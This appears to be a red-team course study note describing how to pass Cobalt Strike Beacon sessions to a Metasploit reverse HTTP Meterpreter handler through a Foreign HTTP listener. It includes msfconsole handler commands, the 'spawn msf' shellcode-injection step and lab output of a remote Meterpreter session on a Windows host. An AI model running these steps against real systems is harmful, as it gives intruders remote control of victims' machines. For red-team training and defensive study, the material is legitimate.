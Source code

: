 
The foreign listener in Cobalt Strike is designed to stage Meterpreter HTTP/HTTPS implants from Beacon, although it's technically compatible with any implant that supports the MSF staging protocol.  

## 🖊️ Usage

1) Start `msfconsole` and create a new reverse HTTP Meterpreter listener.

```
attacker@ubuntu ~> sudo msfconsole -q
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST ens5
msf6 exploit(multi/handler) > set LPORT 8080
msf6 exploit(multi/handler) > run

[*] Started HTTP reverse handler on http://10.10.5.50:8080
```

  You must use the "staged" reverse_http payload type and ensure you use a port that Cobalt Strike is not already listening on.
  
  2) Go to the listener management in Cobalt Strike and create a new **Foreign HTTP** listener.  The stager host and port must match your MSF multi handler.

![[foreign-http.png]]

3) This listener will now be available within all the relevant Beacon commands such as `spawn`, `jump` and `elevate`.  For instance, `spawn msf` will spawn a process and inject Meterpreter shellcode into it, thus giving us a Meterpreter session.

```
[*] http://10.10.5.50:8080 handling request from 10.10.122.254; (UUID: t6qekc2g) Staging x86 payload (176732 bytes) ...
[*] Meterpreter session 1 opened (10.10.5.50:8080 -> 127.0.0.1) at 2022-09-05 11:29:54 +0000

meterpreter > sysinfo
Computer        : WKSTN-2
OS              : Windows 10 (10.0 Build 19044).
Architecture    : x64
System Language : en_US
Domain          : DEV
Logged On Users : 11
Meterpreter     : x86/windows
```


###### ⚠ Two downsides to the foreign listener is that it only supports x86 staged payloads (no x64 or stageless).




### Properties
---
📆 created   {{14-02-2024}} 14:58
🏷️ tags: #redteam #crto 

---

